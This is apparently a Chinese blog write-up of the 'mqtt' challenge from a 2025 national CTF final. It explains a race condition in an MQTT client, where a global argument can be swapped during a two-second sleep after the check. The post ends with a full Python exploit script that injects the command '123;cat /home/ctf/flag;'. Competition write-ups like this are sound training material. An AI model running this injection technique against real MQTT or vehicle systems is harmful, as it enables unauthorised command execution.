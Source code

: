 ```yaml
---
title: 国赛 决赛 2025 - mqtt
date: 2025/07/19 23:32:00
updated: 2025/07/20 08:06:00
tags:
    - mqtt
    - race condition
thumbnail: /assets/ciscnxccb2025/sleep2.png
excerpt: 利用MQTT客户端处理消息时的条件竞争，通过`sleep`窗口篡改全局变量`arg`实现命令注入。
---
```


> 某车企新来的实习生想要给汽车上的MQTT客户端加强一下性能，却没想到弄巧成拙，
> 你能试着攻破客户端吗？

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |yes   |

## 解题思路

第一次做mqtt的题，一开始依赖都没有，还好国赛有上网区，趁10分钟的机会把依赖下一下。

题目附件中并没有给出broker的信息，因此broker大概不是考点，
我们可以直接借助`python-paho`这样的库来操作题目。

{% notel purple fa-file-signature MQTT - Message Queuing Telemetry Transport %}
在做题之前，首先要知道mqtt的工作原理，mqtt中存在中心代理broker，负责接受并广播消息，
客户端使用subscribe来“监听”某个指定的主题，然后使用publish将消息广播到所有订阅了该主题的客户端上。
对于这道题，我们不需要也不能和目标二进制直接建立连接，只能用mqtt机制去打。
{% endnotel %}

虽然剥了符号，但是并不难，整体逆向量很小，唯一需要注意的代码就在这里：

<img src="/assets/ciscnxccb2025/sleep2.png" width="80%">

在处理每条消息的时候，都会开一条新的线程，这意味着存在着临界资源；
在处理`set_vin`指令时，check后等待了2秒再继续运行命令，这意味着临界资源能被其他线程修改；
在check和运行命令时都从全局变量中获取内容，没有先复制到栈上；
摆明了就是条件竞争，先运行正确的`set_vin`指令，然后在sleep过程中，
再publish一条消息把`arg`修改掉，就可以成功注入命令了。

> 我就说怎么这么多人做出来呢，原来是这么简单的条件竞争，还是条件竞争做少了，
> 下次要有看到sleep就想到条件竞争的敏锐感。

## EXPLOIT

```python
import paho.mqtt.client as mqtt
import time
from json import dumps

broker = '39.96.190.95'
client_id = "python_client"
vin = 'XDGV56EK1R8B3W42B'
hashn = 0
for ch in vin:
    hashn = hashn * 0x1f + ord(ch)
auth = hex(hashn)[-8:]

def on_connect(client, userdata, flags, rc):
    print(f"Connected with result code {rc}")
    client.subscribe("diag")

def on_message(client, userdata, msg):
    print(f"{msg.topic}: {msg.payload.decode()}")

client = mqtt.Client(client_id)
client.on_connect = on_connect
client.on_message = on_message
client.connect(broker, 36985, 60)
cmd = {
    'auth': auth,
    'cmd': 'set_vin',
    'arg': '123456789',
}
client.loop_start()
client.subscribe('diag/resp')
client.publish('diag', dumps(cmd))
time.sleep(1)
cmd['arg'] = '123;cat /home/ctf/flag;'
client.publish('diag', dumps(cmd))
try:
    while True:
        time.sleep(0.5)
except KeyboardInterrupt:
    pass
client.loop_stop()
client.disconnect()
```

{% note default fa-flag %}
![flag](/assets/ciscnxccb2025/mqtt_flag.png)
{% endnote %}
